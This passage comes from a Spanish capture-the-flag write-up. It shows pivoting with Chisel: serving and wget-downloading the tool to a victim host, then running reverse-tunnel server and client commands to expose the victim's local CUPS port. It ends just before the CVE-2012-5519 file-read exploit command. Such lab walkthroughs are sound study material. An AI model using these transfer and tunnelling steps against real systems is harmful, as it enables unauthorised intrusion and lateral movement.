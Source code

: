 ### Pivoting

Ahora se puede realizar la **explotación**, pero quiero hacer un poco de pivoting para practicar un poco. Para esto, vamos a necesitar la ayuda de [**Chisel**](https://github.com/jpillora/chisel) para poder ver la web dentro de nuestro equipo. Solo es necesario descargar la versión compatible tanto con el equipo atacante como con el equipo víctima y transferir el archivo.


```bash
python3 -m http.server 8081
```
{: .nolineno}

Y dentro de la máquina atacante:

```bash
wget http://10.10.17.14:8081/chisel
```

Ahora es necesario ejecutarlo como servidor dentro del atacante y como cliente dentro de la víctima con los siguientes comandos:

#### Atacante
```bash
./chisel server --reverse -p puerto
```
{: .nolineno}

```bash
./chisel server --reverse -p 1234
```
{: .nolineno}



#### Vícitima

```bash
./chisel client IpAtacante:PuertoAtacante R:puerto:IpExponer:puertoExponer
```
{: .nolineno}


```bash
./chisel client 10.10.14.17:1234 R:631:127.0.0.1:631
```
{: .nolineno}


Y después de esto, deberíamos poder ver en nuestro puerto 631 la página web.


![cups](/antique/cups.png)


### Explotación 

Ahora, al investigar sobre vulnerabilidades específicas, se encuentra una **divulgación de información** que me permite leer archivos dentro del servidor para posteriores ataques. En el siguiente [repositorio](https://github.com/p1ckzi/CVE-2012-5519), explican cómo se puede explotar la vulnerabilidad y existe un exploit que automatiza el ataque. Sin embargo, dentro de la explicación dicen que solo es necesario ejecutar el siguiente comando, cambiando la ruta del archivo, para leer el contenido:
